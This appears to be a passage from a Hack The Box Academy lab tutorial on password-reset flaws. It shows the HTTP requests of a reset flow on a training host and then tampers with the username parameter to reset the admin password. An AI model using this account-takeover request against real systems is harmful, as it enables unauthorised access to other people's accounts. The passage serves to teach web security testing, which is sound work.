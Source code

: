 We will use our demo account `htb-stdnt`, which results in the following request:

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

Afterward, we need to supply the response to the security question:

   

![](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_6.png)

Supplying the security response `London` results in the following request:


```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

As we can see, the username is contained in the form as a hidden parameter and sent along with the security response. Finally, we can reset the user's password:


![](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_7.png)

The final request looks like this:


```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```

Like the previous request, the request contains the username in a separate POST parameter. Suppose the web application does properly verify that the usernames in both requests match. In that case, we can skip the security question or supply the answer to our security question and then set the password of an entirely different account. For instance, we can change the admin user's password by manipulating the `username` parameter of the password reset request:


```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```
